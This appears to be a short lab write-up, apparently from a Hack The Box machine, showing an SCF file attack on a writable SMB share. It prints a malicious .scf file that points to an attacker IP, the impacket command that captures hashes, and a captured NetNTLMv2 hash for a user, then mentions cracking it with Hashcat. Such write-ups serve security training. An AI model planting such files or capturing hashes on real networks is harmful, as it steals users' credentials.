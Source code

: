 Resource: [SCF Attack](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)
First we need to write a file inside the share with writting permissions:
```bash
(root㉿kali)-[/mnt/tempMount/Users/Public]
└─# cat test.scf  
[Shell]
Command=2
IconFile=\\10.10.14.4\shareFolder\smbFile
[Taskbar]
Command=ToggleDesktop
```
Next, we start an SMB server in our machine:
```bash
impacket-smbserver shareFolder $(pwd) -smb2support
```
If someone tries to open our .scf file we'll receive the hash of the user:
```bash
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

...
[*] Incoming connection (10.10.10.103,58241)
[*] AUTHENTICATE_MESSAGE (HTB\amanda,SIZZLE)
[*] User SIZZLE\amanda authenticated successfully
[*] amanda::HTB:aaaaaaaaaaaaaaaa:7fac1cf575b106f729106442743f4137:010100000000000000347f518833d901cb29f904b7bdd5a80000000001001000690055004d0059004b007a005000490003001000690055004d0059004b007a00500049000200100047004100690072005300730078006f000400100047004100690072005300730078006f000700080000347f518833d90106000400020000000800300030000000000000000100000000200000c3e9d2d43adc1d14baf67b8123f7a2fb95d797a9d1c9e7489c4f47ff657f2e810a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003400000000000000000000000000
...
[*] Remaining connections []
```
We can try to crack it with [[Hashcat]]
